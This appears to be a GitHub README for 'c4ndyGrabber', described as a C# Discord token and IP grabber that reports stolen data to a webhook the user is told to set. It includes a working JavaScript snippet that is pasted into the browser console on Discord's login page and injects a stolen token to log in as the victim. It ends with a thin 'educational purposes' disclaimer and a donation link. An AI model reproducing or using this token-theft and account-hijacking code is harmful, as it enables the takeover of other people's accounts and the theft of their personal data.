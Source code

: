# c4ndyGrabber
C# Discord Token and IP grabber

Remember to change `webhook` otherwise the report wont be able to come.

### Login with token JS function

```
function login(token) { setInterval(() => { document.body.appendChild(document.createElement `iframe`).contentWindow.localStorage.token = `"${token}"` }, 50); setTimeout(() => { location.reload(); }, 2500); }

login("token")
```

> Paste it into console at login discord page

*Made only for educational purposes*

<div align="center">
  
[![paypal](https://www.paypalobjects.com/en_US/PL/i/btn/btn_donateCC_LG.gif)](https://www.paypal.com/donate/?hosted_button_id=LHX286XBZ5BZS)
  
</div>
